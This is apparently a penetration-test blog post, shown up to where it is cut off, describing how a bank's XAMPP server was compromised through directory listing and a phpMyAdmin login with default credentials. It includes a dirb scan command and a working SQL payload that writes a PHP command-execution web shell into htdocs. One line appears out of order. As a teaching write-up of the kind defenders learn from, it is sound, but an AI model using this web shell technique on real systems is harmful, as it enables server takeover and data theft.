

repository: WarrenPhilippe/Blog · page: How_to_Own_a_Bank/index.html · generator: mkdocs

---
title: "How to Own a Bank"
author: "Jamie Warren Philippe"
date: "2025-02-13"
categories: [Cybersecurity, Pentest, Story, Banking]
tags: [Core, Banking, Privilege Escalation, Exploitation]
---

# From Directory Listing to Owning a Bank: A Wild Ride with phpMyAdmin, XAMPP, and a PAM that Didn't Give a Damn

## The Setup: "Oops, We Left Everything Open"
So there I was, minding my own business (aka breaking into a bank’s network for *totally legal* reasons), when I stumbled upon a webserver running XAMPP on a **fully patched** Windows Server. At first, I thought, "Okay, maybe they actually know what they're doing." Then, I ran `dirb` and found *directory listing* enabled. **Rookie mistake #1.**

### Step 1: The Accidental Gift – Directory Listing
It all started with a simple directory listing. Because why secure your webserver when you can just hand out your internal file structure to anyone with an internet connection? I ran:
```bash
dirb http://targetbank.com/
```
Boom. A treasure trove of exposed files, including a /phpmyadmin/ folder. Classic.
and I was in. **Rookie mistake #2.**

### Step 2: Oh Look, PhpMyAdmin – Let’s Try Defaults and give them a supprise!
I took a gamble and tried the usual default credentials:
```
Username: root
Password: (blank)
```
Guess what? It worked. Because, of course, it did. 
With full control over the database, I simply used `SELECT INTO OUTFILE` to write a **PHP web shell** directly into `htdocs`.
```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/xampp/htdocs/shell.php';
```
Boom. Webshell live at `http://bankserver/shell.php`.
